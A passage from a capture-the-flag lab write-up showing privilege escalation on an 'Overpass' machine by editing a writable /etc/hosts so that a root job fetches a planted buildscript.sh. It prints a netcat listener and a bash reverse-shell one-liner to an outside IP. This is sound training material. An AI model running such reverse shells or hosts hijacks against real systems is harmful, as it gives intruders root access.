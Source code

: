 The web server is accessed through a domain name `overpass.thm`. And this domain name is defined in `/etc/hosts`:

![hosts](james-hosts.png)

And I checked the permissions of `/etc/hosts`:

![hosts perm](james-hosts-perm.png)

Hey! I can edit it!

So this means that I can point the domain name `overpass.thm` to my local machine, and serve a `buildscript.sh` file with arbitary command, which will be run by root on the target machine. And this means that I can gain a **root shell** on the target machine.

## Reverse Shell (root)

So I started a listener on my local machine:

```bash
nc -lvnp 8889
```

And prepared the directories and payload:

```bash
mkdir downloads
mkdir downloads/src
echo 'bash -i >& /dev/tcp/10.4.0.34/8889 0>&1' > downloads/src/buildscript.sh
```

and serve this file on my local machine:

```bash
sudo python3 -m http.server 80
```

On the target machine, I changed the `/etc/hosts` file to point the domain name `overpass.thm` to my local machine's IP address:

![edit hosts](james-edit-hosts.png)
